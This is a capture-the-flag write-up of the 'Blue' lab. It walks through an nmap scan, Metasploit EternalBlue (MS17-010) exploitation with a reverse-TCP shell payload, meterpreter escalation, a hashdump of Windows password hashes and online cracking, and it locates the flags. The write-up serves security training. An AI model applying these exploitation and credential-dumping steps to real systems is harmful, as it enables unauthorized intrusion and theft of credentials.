 # Blue - itsnexn - 27/mar/2021

## Recon
### Scan(Nmap)
COMMAND:
```bash
nmap -sV -vv --script vuln 10.10.52.140 -oN scan/nmap
```

We start with nmap scan in `scan/nmap`:
```
# Nmap 7.91 scan initiated Sat Mar 27 23:36:59 2021 as: nmap -sV -vv --script vuln -oN scan/nmap 10.10.52.140
Increasing send delay for 10.10.52.140 from 0 to 5 due to 15 out of 49 dropped probes since last increase.
Nmap scan report for 10.10.52.140
Host is up, received conn-refused (0.19s latency).
Scanned at 2021-03-27 23:37:10 +0430 for 176s
Not shown: 991 closed ports
Reason: 991 conn-refused
PORT      STATE SERVICE            REASON  VERSION
135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack
| rdp-vuln-ms12-020:
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_      http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown:
49152/tcp open  msrpc              syn-ack Microsoft Windows RPC
49153/tcp open  unknown            syn-ack
49154/tcp open  msrpc              syn-ack Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack Microsoft Windows RPC
49160/tcp open  msrpc              syn-ack Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 27 23:40:06 2021 -- 1 IP address (1 host up) scanned in 187.12 seconds
```


### TASKS
How many ports are open with a port number under 1000? `Hint: Near the top of the nmap output: PORT STATE SERVICE`
```
¯\_(ツ)_/¯
```

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067) `Hint: Revealed by the ShadowBrokers, exploits an issue within SMBv1`
```
¯\_(ツ)_/¯
```
## Gain Access

### MSFconsole
```
MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
```

At first we start to search our vulnerability `search ms17-010`
Then after find exploit we just use it!!!`use exploit/windows/smb/ms17_010_eternalblue`
Then we set our `RHOSTS` like this `set RHOSTS 10.10.52.140`
its better to use payload so we set out payload like so:`set payload windows/x64/shell/reverse_tcp`

Yes we get our sehll or its better to say RCE ig ...




### TASKS
Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)`Hint: search ms??`
```
¯\_(ツ)_/¯
```

Show options and set the one required value. What is the name of this value? (All caps for submission)`Hint: Command: show options`
```
¯\_(ツ)_/¯
```

## Escalate

after get RCE we going to use `shell_to_meterpreter` module to find users and password hash's so first we hit CTRL+Z to send RCE to background
than we just `use post/multi/manage/shell_to_meterpreter` and then we use `session -l` to list our sessions then we `set SESSION 1` and run exploit ...
we use `ps` to show processes and migrate to them ...
after some attempts we find our psID to migrate to `svchost.exe | 708`


### TASKS
What is the name of the post module we will use?`Hint: Google this: shell_to_meterpreter`
```
¯\_(ツ)_/¯
```

Select this (use MODULE_PATH). Show options, what option are we required to change?
```
¯\_(ツ)_/¯
```

## Cracking

after migrate to psID we found we use our `hashdump` command to see users hash's:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
then we use `https://crackstation.net/` to crack the password hash...

### TASKS
What is the name of the non-default user?
```
¯\_(ツ)_/¯
```

 Copy this password hash to a file and research how to crack it. What is the cracked password?
```
¯\_(ツ)_/¯
```

## Find flags!

we found our first flag in `C:\flag1.txt`...
and second one in `C:\windows\system32\config\flag2.txt`
and for third flag after some time i can find flag on C:\Users\Jon\Documents\flag3.txt

### TASKS
Flag1? This flag can be found at the system root.`Hint: Can you C it?`
```
¯\_(ツ)_/¯
```

Flag2? This flag can be found at the location where passwords are stored within Windows.`Hint: I wish I wrote down where I kept my password. Luckily it's still stored here on Windows.`
```
¯\_(ツ)_/¯
```

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.`Hint: You'll need to have elevated privileges to access this flag.
`
```
¯\_(ツ)_/¯
```
